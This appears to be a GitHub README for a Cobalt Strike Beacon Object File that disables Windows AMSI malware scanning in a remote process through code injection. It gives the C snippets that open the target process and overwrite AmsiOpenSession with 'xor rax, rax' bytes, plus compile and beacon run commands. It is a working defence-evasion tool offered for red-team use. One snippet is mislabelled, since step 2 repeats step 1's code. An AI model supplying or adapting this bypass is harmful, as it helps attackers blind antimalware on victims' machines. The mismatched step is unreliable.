

## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike 
  

### What does this do?
##### 1. Use supplied PID argument to get a handle on the remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  

#### After - Powershell.exe AMSI.AmsiOpenSession
  

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```
+ Make sure to load the inject-amsiBypass.cna script into Cobalt Strikes Script Manager

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
